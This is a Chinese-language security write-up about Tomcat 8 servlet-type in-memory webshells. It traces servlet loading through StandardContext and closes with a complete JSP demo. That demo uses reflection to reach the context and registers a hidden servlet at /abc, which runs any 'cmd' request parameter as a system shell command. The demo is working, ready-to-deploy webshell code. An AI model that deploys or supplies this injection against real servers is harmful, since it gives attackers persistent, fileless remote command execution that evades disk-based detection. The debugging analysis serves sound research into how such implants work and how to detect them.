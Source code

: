 # Tomcat-Servlet型内存马

<center>@Y4tacker</center>

这一篇是在tomcat8的版本下，进行的调试

## 简单配置一个Servlet

在web.xml添加，这里我们将load-on-startup值设置为1，原因是为了便于简化调试的过程，在每个Servlet的启动顺序在web.xml中，如果没有声明 load-on-startup 属性（默认为-1），则该Servlet不会被动态添加到容器，这一点比较重要

```xml
<servlet-mapping>
        <servlet-name>TestServlet</servlet-name>
        <url-pattern>/export</url-pattern>
</servlet-mapping>
<servlet>
        <servlet-name>TestServlet</servlet-name>
        <servlet-class>com.jbxz.TestServlet</servlet-class>
        <load-on-startup>1</load-on-startup>
</servlet>
```

接下来随便写一个Servlet

```Java
public class TestServlet extends HttpServlet {
    public void doGet(HttpServletRequest request, HttpServletResponse response) throws IOException {
        PrintWriter writer = response.getWriter();
        writer.println("hello");
    }
}

```

## 断点调试

在org.apache.catalina.core.StandardContext#loadServlet下断点看看怎么加载一个servlet的我们才能写内存马

先回溯到`org/apache/catalina/core/StandardContext.java`，虽然没啥多余的意义，但是我们在这里看到了确实是先加载完Listener和Filter之后，才装载Servlet

![](img/1.png)



前面已经完成了将所有 servlet 添加到 context 的 children 中，this.findChildren()即把所有Wapper（负责管理Servlet）传入loadOnStartup()中处理，可想而知loadOnStartup()就是负责动态添加Servlet的一个函数

可以看到下面图中首先获取Context下所有的Wapper类，并获取到每个Servlet的启动顺序，选出 >= 0 的项加载到一个存放Wapper的list中

![](img/2.png)

在每个Servlet的启动顺序在web.xml中，如果没有声明 load-on-startup 属性（默认为-1），则该Servlet不会被动态添加到容器：

然后对每个wapper进行装载![](img/3.png)

很明显在第一行，我们可以看到这里加载servlet，同时这里注意下小知识点，Java的synchronized是Java中的关键字，被Java原生支持，是一种最基本的同步锁，它可以帮助我们解决线程冲突

![](img/8.png)

在这里通过获取servletClass来装载servlet

![](img/9.png)

装载所有的 Servlet 之后，就会根据具体请求进行初始化、调用、销毁一系列操作： 

```
装载：启动服务器时加载Servlet的实例

初始化：web服务器启动时或web服务器接收到请求时，或者两者之间的某个时刻启动。初始化工作有init()方法负责执行完成

调用：即每次调用Servlet的service()，从第一次到以后的多次访问，都是只是调用doGet()或doPost()方法（doGet、doPost内部实现，具体参照HttpServlet类service()的重写）

销毁：停止服务器时调用destroy()方法，销毁实例
```

因此一个很重要的就是之前的StandardWrapper

还记得之前的findChildren()么，一个child对应一个封装了Servlet的StandardWrapper对象，所以我们需要去构造一个wrapper

接下来我们一步一步往上思考，这样才能逐渐接近真相，接下来我们来思考，这个wrapper又是从哪里取得的呢，没错就是findChildren()遍历的时候得到的，很容易我们就能找到添加的函数

`org.apache.catalina.core.StandardContext#addChild`其调用`super.addChild(child);`也就是`org.apache.catalina.core.ContainerBase#addChild`![](img/10.png)

这个父类也是通过调用`addChildInternal`，在这里会注册这个Servlet，这里不多讲有兴趣可以进一步跟入![](img/11.png)

之后我们再次回到`org.apache.catalina.core.StandardContext#addChild`

这里很重要哦，由于我们是通过访问jsp文件所以这里也是要执行的，只是调试的时候不会有

![](img/12.png)

## 动手实现一个Servlet型号=内存马

通过上面的步骤，所以Servlet型内存Webshell的主要步骤如下：

- 创建恶意Servlet
- 用Wrapper对其进行封装
- 添加封装后的恶意Wrapper到StandardContext的children当中
- 添加ServletMapping将访问的URL和Servlet进行绑定

## demo



```jsp
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%@ page import="java.io.PrintWriter" %>
<%!
    Servlet servlet = new Servlet() {
        @Override
        public void init(ServletConfig servletConfig) throws ServletException {

        }
        @Override
        public ServletConfig getServletConfig() {
            return null;
        }
        @Override
        public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
            String cmd = servletRequest.getParameter("cmd");
            boolean isLinux = true;
            String osTyp = System.getProperty("os.name");
            if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                isLinux = false;
            }
            String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
            Scanner s = new Scanner(in).useDelimiter("\\a");
            String output = s.hasNext() ? s.next() : "";
            PrintWriter out = servletResponse.getWriter();
            out.println(output);
            out.flush();
            out.close();
        }
        @Override
        public String getServletInfo() {
            return null;
        }
        @Override
        public void destroy() {

        }
    };
%>
<%
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext stdcontext = (StandardContext) req.getContext();
%>
<%
    Wrapper newWrapper = stdcontext.createWrapper();
    String name = servlet.getClass().getSimpleName();
    newWrapper.setName(name);
    newWrapper.setLoadOnStartup(1);
    newWrapper.setServlet(servlet);
    newWrapper.setServletClass(servlet.getClass().getName());
%>
<%
    stdcontext.addChild(newWrapper);
    stdcontext.addServletMappingDecoded("/abc", name);
%>
```

## 测试

先访问jsp注入servlet内存马

![](img/6.png)

接下来访问路由成功弹出计算器

![](img/7.png)
